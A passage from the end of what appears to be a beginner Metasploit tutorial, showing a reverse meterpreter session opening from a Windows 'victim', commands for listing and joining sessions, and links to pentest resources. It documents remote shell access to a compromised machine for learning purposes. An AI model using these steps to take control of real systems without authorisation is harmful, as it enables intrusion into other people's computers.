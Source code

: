 The next step is waiting until the victim connects to our server, at which point the meterpreter session would automatically start:
```
[*] Meterpreter session 1 opened (192.168.1.15:8080 -> 192.168.1.10:53235) at 2017-03-26 
```
> **Note**: If you are getting an SSL error at this point, you may need to follow these directions from the <a href="https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode" target="_blank">Metasploit Framework Wiki</a>

We use `sessions` or `sessions -l` to list the active sessions:
```
msf exploit(handler) > sessions
```
```
Active Sessions
===============

  Id  Type                      Information                 Connection
  --  ----                      -----------                 ----------
  1   meterpreter x86/windows   xyz/Administrator @ xyz     192.168.1.15:8080 -> 192.168.1.10:53235

```
To join the newly created session:
```
msf exploit(handler) > sessions -i 1
```
```
meterpreter > 
```
We have now switched to the meterpreter context which has completely different commands than the module and the global context of `msfconsole`. To check the meterpreter commands, try:
```
meterpreter > help
```
Congratulations! You have just exploited your first Windows machine. In a future post, we will explore the power of Meterpreter.
# <span id="resources">Resources</span>

**To learn more**:
- <a href="https://www.offensive-security.com/metasploit-unleashed" target="_blank">Metasploit Unleashed</a>
- <a href="http://www.nostarch.com/metasploit" target="_blank">Metasploit - The Penetration Tester's Guide</a>
- <a href="https://github.com/rapid7/metasploit-framework/wiki" target="_blank">Metasploit Framework Wiki</a>
- <a href="http://resources.metasploit.com" target="_blank">Metasploit External Resource Portal</a>

**To get help**:
- <a href="https://community.rapid7.com/community/metasploit" target="_blank">Rapid7 Community</a>
- <a href="https://security.stackexchange.com/questions/tagged/metasploit" target= "_blank">Information Security - Stack Exchange</a>

**To search for vulnerabilities/exploits**:
- <a href="https://www.rapid7.com/db/search" target ="_blank">Rapid7 Vulnerability and Exploit Database</a>
- <a href="https://www.exploit-db.com/search" target="_blank">Exploit Database</a>
